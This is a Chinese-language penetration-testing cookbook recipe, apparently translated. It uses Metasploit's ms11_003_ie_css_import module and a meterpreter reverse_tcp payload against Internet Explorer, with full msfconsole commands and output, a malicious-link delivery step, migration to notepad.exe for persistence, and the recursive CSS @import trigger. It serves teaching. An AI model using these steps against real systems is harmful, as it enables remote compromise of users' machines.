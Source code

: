 ## 准备就绪

我们将从启动 msfconsole 开始。在这个示例中，我们的利用是`exploit/windows/browser/ms11_003_ie_css_import`，我们的有效载荷将是`windows/meterpreter/bind_tcp`，这将帮助我们与目标机器建立 shell 连接。

## 如何做...

我们将以迄今为止的相同方式开始。首先，我们将选择利用。然后，我们将选择有效载荷，并传递利用和有效载荷所需的各种参数值。让我们在我们的 msfconsole 中继续进行所有这些步骤。

```
msf > use exploit/windows/browser/ms11_003_ie_css_import
msf exploit(ms11_003_ie_css_import) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
smsf exploit(ms11_003_ie_css_import) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(ms11_003_ie_css_import) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/K9JqHoWjzyAPji
[*] Local IP: http://192.168.56.101:8080/K9JqHoWjzyAPji
[*] Server started. 
```

正如我们所看到的，漏洞利用和有效载荷已经设置，并带有各种参数。执行`exploit`命令后，模块生成了一个本地链接`http://192.168.56.101:8080/K9JqHoWjzyAPji`。这是恶意链接，必须传输给目标，以便他在 IE 浏览器中执行。目标浏览器将完全冻结，并且将占用系统资源的大部分。目标将被迫关闭浏览器。让我们在 msfconsole 上监视活动：

```
[*] 192.168.56.1:52175 Received request for "/K9JqHoWjzyAPji/\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A"
[*] 192.168.56.1:52175 Sending
windows/browser/ms11_003_ie_css_import CSS
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.1:52176) at 2011-11-15 13:18:17 +0530
[*] Session ID 1 (192.168.56.101:4444 -> 192.168.56.1:52176) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (5164)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5220
[+] Successfully migrated to process 
```

在目标浏览器成功执行漏洞利用后，我们在 msfconsole 中启动了一个会话，从而打开了 shell 连接。但在 msf 和目标之间建立会话后，还会发生更多的事情。`InitialAutoRunScript`执行了一个`migrate -f`命令，将有效载荷从`iexplore.exe`迁移到`notepad.exe`。这一步对于持久连接是必不可少的。即使目标用户关闭了浏览器，连接仍然会保持活动，因为我们已经迁移到另一个进程。

## 工作原理...

让我们挖掘一下这个漏洞，以获取更多信息。嗯，漏洞的原因正是它的名字所说的。当微软的 HTML 引擎（mshtml）解析递归多次导入相同的 CSS 文件的 HTML 页面时，就会导致内存损坏并允许任意代码执行。考虑以下 HTML 代码片段。

```
// html file
<link href="css.css" rel="stylesheet" type="text/css" />
// css file
*{
color:red;
}
@import url("css.css");
@import url("css.css");
@import url("css.css");
@import url("css.css"); 
```
